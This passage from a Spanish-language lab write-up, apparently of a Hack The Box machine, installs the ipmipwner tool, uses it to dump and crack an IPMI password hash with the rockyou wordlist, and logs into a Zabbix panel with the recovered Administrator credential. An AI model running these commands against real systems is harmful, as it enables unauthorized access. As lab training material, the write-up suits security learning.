 ``` sh
       │ File: requirements.sh

   1   │ #!/bin/bash
   2   │ 
   3   │ if [ "$(id -u)" -ne 0 ]; then
   4   │     echo -e "\n[*] You must be root to run the script"
   5   │     exit
   6   │ fi
   7   │ 
   8   │ function ctrl_c(){
   9   │     tput cnorm
  10   │     echo -e "\n\n[*] Exiting...\n"
  11   │     exit
  12   │ }
  13   │ 
  14   │ trap ctrl_c int
  15   │ tput civis; echo -ne "\n\n[*] Installing requirements\n\n"
  16   │ apt-get install ipmitool nmap python3 python3-pip -y
  17   │ echo -ne "\n\n[*] Installing python3 requirements\n\n"
  18   │ pip3 install shodan colorama python-nmap
  19   │ echo -ne "\n\n[*] All requirements have been installed\n"; tput cnorm
```
De los requirimientos solo me quedaría instalar shodan, colorama y ptyhon-nmap:
```
❯ pip3 install shodan colorama python-nmap

Requirement already satisfied: shodan in /usr/lib/python3/dist-packages (1.25.0)
Requirement already satisfied: colorama in /usr/lib/python3/dist-packages (0.4.4)
Collecting python-nmap
  Downloading python-nmap-0.7.1.tar.gz (44 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 44.4/44.4 kB 8.5 MB/s eta 0:00:00
  Preparing metadata (setup.py) ... done
Building wheels for collected packages: python-nmap
  Building wheel for python-nmap (setup.py) ... done
  Created wheel for python-nmap: filename=python_nmap-0.7.1-py2.py3-none-any.whl size=20634 sha256=07ce49674258db420cf023eb9eb6b353b21ad50a20c0b92324dcddc0a2c627a5
  Stored in directory: /root/.cache/pip/wheels/88/67/41/ba1f1a09d56b70beff41ba89b22cf581796d30996762c5c718
Successfully built python-nmap
Installing collected packages: python-nmap
Successfully installed python-nmap-0.7.1
```
Ahora ya deberíamos poder ejecutar el script. Abajo del mismo github nos pone formas de correr la herramienta, me copio la primera y modifico un poco.
```
❯ python3 ipmipwner.py --host 10.10.11.124 -c python -oH hash -pW /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt

[*] Checking if port 623 for host 10.10.11.124 is active
[*] Using the list of users that the script has by default
[!] To use python cracking mode you must provide the --output-cracked parameter.
```
Parece que hay que añadir la opción que nos indican al final
```
❯ python3 ipmipwner.py --host 10.10.11.124 -c python -oH hash -pW /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --output-cracked hashcrackeado
```
Mi ordenador,que es viejo, colapso de la fuerza bruta. Pero el script funciona. La contraseña que saca es; ilovepumkinpie1  
Entonces tenemos un usuario que es **Administrator** y una contraseña que es **ilovepumkinpie1**. Y tenemos un panel, el panel de Zabbix. Añadiendo esas credenciales consigo entrar.
